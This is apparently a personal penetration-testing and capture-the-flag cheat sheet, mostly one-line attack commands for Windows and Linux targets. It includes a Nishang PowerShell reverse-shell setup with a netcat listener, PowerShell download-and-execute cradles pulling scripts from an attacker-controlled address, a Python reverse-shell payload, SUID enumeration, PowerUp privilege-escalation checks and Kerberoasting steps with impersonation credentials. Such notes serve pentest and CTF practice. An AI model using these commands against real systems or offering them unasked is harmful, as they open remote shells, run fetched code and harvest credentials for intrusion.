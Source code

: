 #### Tools & Techniques


 Nishang
To get a sheel from an entry point where cmd is working or the entry point is a cmd

cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 nishang.ps1
gedit nishang.ps1
Invoke-PowershellTcp -Reverse -IpAdress *.*.*.* -Port *
python -m SimpleHTTPServer
nc -lvnp *

In cmd:
powershell "IEX(New-Object Net.WebClient).downloadString('http://*.*.*.*:*/nishang.ps1')"


 Linux
To get a better shell:
python -c 'import pty;pty.spawn("/bin/bash");'
 to list suid binary file:
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;


 Windows
 to convert in base64 with UTF-16LE encoding
echo -n "Hello World" | iconv --to-code UTF-16LE | base64 -w 0

 Tools
 Shell and Crack
Unicorn.py :  https://github.com/trustedsec/unicorn  
Empire.py  :  https://github.com/EmpireProject/Empire
JAWS       :  https://github.com/411Hall/JAWS   (Windows Enumeration Tools)
zip2john   :  https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c (To crack zipped password)

 Steganography tools
zsteg,steghide,binwalk.strings,file,foremost

 Other tools
readpst,mdb-shell,mdb-sql

 Techniques
To download all files from ftp server:
wget -m --no-passive ftp://username:password@x.x.x.x

To login in imap server using openssl:
openssl s_client -connect chaos.htb:993
link which can help:http://blog.viggy.in/?p=9
Linux enumerarion help:  https://www.rebootuser.com/?p=1623#.V5QOe7grKUl


To find S3 bucket of the program, I used nahamsec‘s lazys3.
Command: ruby lazys3.rb site_name
https://github.com/ehsahil/recon-my-way/tree/master/lazys3 

Openssl :
openssl req -x509 -new -nodes -key abc.key -sha256 -days 1024 -out abcd.pem
openssl req -new -newkey rsa:2048 -nodes -out abc.csr -keyout abcd.key
openssl pkcs12 -export -in asdf.pem -inkey ca.key -out server.p12 

SMB part:
smbclient -L //ip   {smb shares}
smbmap -H ip   

Windows Nishang Rbash like thingy:
powershell -version 2 -command "IEX(New-Object Net.WebClient).DownloadString('http://:8000/Invoke-PowerShellTcp.ps1')"
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.x.x:port/PowerUp.ps1');Invoke-AllChecks"

Kerberoasting::
use nishang Reverse shell
use powerview to load
encode the password :  $SecPassword = ConvertTo-SecureString 'Password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword) 
Invoke-UserImpersonation -Credential $Cred
Invoke-kerberoast | fl  { default format of key is john but format can be changed in hashcat}

Python shell payload :
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("ip",port,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");';

